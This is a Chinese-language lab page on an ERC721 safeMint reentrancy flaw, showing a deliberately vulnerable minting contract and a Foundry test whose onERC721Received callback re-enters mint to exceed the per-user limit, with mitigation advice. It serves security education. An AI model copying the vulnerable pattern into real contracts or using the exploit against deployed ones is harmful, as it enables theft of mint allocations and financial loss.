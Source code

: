 # 不受保护的回调——ERC721 SafeMint 重入

[Unprotected-callback.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Unprotected-callback.sol)  

**名称：** 不受保护的回调 —— ERC721 SafeMint可重入漏洞  

**描述：**  
合约ContractTest正在利用回调功能绕过由MaxMint721合约设置的最大铸造限制。这是通过触发onERC721Received函数来实现的，该函数在内部再次调用mint函数。  
因此，尽管MaxMint721试图将用户可以铸造的代币数量限制为MAX_PER_USER，但ContractTest合约成功铸造了超过这个限制的代币。  


**场景：**  
本练习涉及通过回调函数来铸造更多的非同质化代币(NFT)。


**缓解措施：**  
遵循“检查-效果-交互”原则，并使用OpenZeppelin重入防护机制。  

**参考：**  
https://blocksecteam.medium.com/when-safemint-becomes-unsafe-lessons-from-the-hypebears-security-incident-2965209bda2a  
https://www.paradigm.xyz/2021/08/the-dangers-of-surprising-code  


**MaxMint721合约：**  
```solidity
contract MaxMint721 is ERC721Enumerable {
    uint256 public MAX_PER_USER = 10;

    constructor() ERC721("ERC721", "ERC721") {}

    function mint(uint256 amount) external {
        require(
            balanceOf(msg.sender) + amount <= MAX_PER_USER,
            "exceed max per user"
        );
        for (uint256 i = 0; i < amount; i++) {
            uint256 mintIndex = totalSupply();
            _safeMint(msg.sender, mintIndex);
        }
    }
}
```
**如何测试：**  
`forge test --contracts src/test/Unprotected-callback.sol -vvvv`

```solidity
// 测试铸造新代币的公共函数
function testSafeMint() public {
    // 创建MaxMint721合约的新实例。
    MaxMint721Contract = new MaxMint721();
        
    // 尝试铸造最大数量的新代币。 
    // 根据正常实现，这应该铸造maxMints数量的新代币。
    MaxMint721Contract.mint(maxMints);
        
    // 控制台日志表明发生了一个漏洞，允许铸造19个NFT。
    console.log("Bypassed maxMints, we got 19 NFTs");
        
    // 该代码判断确实已经铸造了19个NFT。
    assertEq(MaxMint721Contract.balanceOf(address(this)), 19);
        
    // 输出由该合约铸造的NFT数量
    console.log("NFT minted:", MaxMint721Contract.balanceOf(address(this)));
}

// 此函数是一个标准的ERC721Receiver接口的实现，允许该合约从其他合约接收ERC721代币。
// 在此案例中，它用于执行铸造漏洞。
function onERC721Received(
    address,
    address,
    uint256,
    bytes memory
) public returns (bytes4) {
        
    // 检查这是否是第一次调用函数
    if (!complete) {
        // 将函数标记为调用
        complete = true;
            
        // 新代币数量为(maxMints - 1)  
        MaxMint721Contract.mint(maxMints - 1);
            
        // 记录请求铸造的代币数量
        console.log("Called with :", maxMints - 1);
    }
        
    // 这是成功接收ERC721代币的标准返回值
    return this.onERC721Received.selector;
}
```
**红框：**成功绕过maxMint限制   
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F86e9ee9c-86cb-4ef2-9c5a-cf8774cacda8%2FUntitled.png?table=block&id=a2eb9107-aa44-4bc6-a6b6-0c1a0f284393&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
